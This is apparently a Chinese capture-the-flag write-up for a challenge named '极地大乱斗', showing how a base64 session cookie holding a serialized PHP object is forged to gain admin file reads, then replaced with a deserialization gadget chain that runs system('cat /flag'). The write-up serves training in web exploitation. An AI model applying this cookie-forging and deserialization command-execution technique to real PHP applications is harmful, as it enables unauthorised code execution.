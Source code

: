 # 极地大乱斗

打开是个名字，随便输入任意名字看看

![image-20240318142851940](image/极地大乱斗/image-20240318142851940.png)

在read.html页面抓包，看到header头里面存在一个session

![image-20240318142948628](image/极地大乱斗/image-20240318142948628.png)

```
TzozOiJjdGYiOjI6e3M6NDoibmFtZSI7czo0OiJ0ZXN0IjtzOjU6InBvd2VyIjtzOjU6InVzZXJzIjt9
```

base64解码

![image-20240318143140388](image/极地大乱斗/image-20240318143140388.png)

然后我们读取文件

![image-20240318143315487](image/极地大乱斗/image-20240318143315487.png)

需要变成admin，我们尝试伪造一下看看

![image-20240318143417994](image/极地大乱斗/image-20240318143417994.png)

可以成功读取文件

![image-20240318145014477](image/极地大乱斗/image-20240318145014477.png)

在read.php存在反序列化

读取cookies.php

![image-20240318145159574](image/极地大乱斗/image-20240318145159574.png)

简单的反序列化，可以直接命令执行

```php
class ctf{
    public $name;
    public $power;
}
class web{
    public $evil;
}

}
class hacker{
    public $name;
}
$a = new ctf();
$a->name= new web();
$a->name->evil=new hacker();
$a->name->evil->name="system('cat /flag')";
echo base64_encode(serialize($a));
```

把输出传入cookies即可命令执行